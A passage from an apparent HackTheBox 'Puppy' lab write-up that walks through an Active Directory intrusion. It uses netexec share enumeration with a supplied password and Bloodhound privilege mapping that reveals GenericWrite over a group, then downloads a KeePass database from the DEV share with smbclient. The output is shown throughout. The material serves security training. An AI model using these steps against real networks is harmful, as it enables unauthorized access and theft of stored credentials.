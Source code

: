 ### Discovering the DEV share
By enumerating smb shares, we can see that we have one interesting share `DEV` but we don't have any permission on it so we can't read it.
```console
$ nxc smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --shares
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False) 
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.10.11.70     445    DC               [*] Enumerated shares
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share 
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```

### Using Bloodhound to abuse user privilege to access DEV share
We can use `bloodhound` to see privileges of the accounts. We will use `bloodhound-python` to collect data:
```console
$ bloodhound-python -u levi.james -p 'KingofAkron2025!' -ns 10.10.11.70 -d PUPPY.HTB -c All
```

Uploading the collected data into `Bloodhound` and checking the rights for our user, we can see that we have GenericWrite over group `DEVELOPERS@PUPPY.HTB`

![Levi James Bloodhound](/assets/images/HackTheBox-Puppy/levi_james_bloodhound.png)

Now, we can access that `DEV` share and we can see that there is one KeePass database `recovery.kdbx`, transfer it to our machine:
```console
$ smbclient -U levi.james%'KingofAkron2025!' //10.10.11.70/DEV
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri May 23 00:36:01 2025
  ..                                  D        0  Sat Mar  8 11:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 03:09:12 2025
  Projects                            D        0  Sat Mar  8 11:53:36 2025
  recovery.kdbx                       A     2677  Tue Mar 11 22:25:46 2025

                5080575 blocks of size 4096. 1642671 blocks available
smb: \> get recovery.kdbx 
getting file \recovery.kdbx of size 2677 as recovery.kdbx (17.9 KiloBytes/sec) (average 17.9 KiloBytes/sec)
```
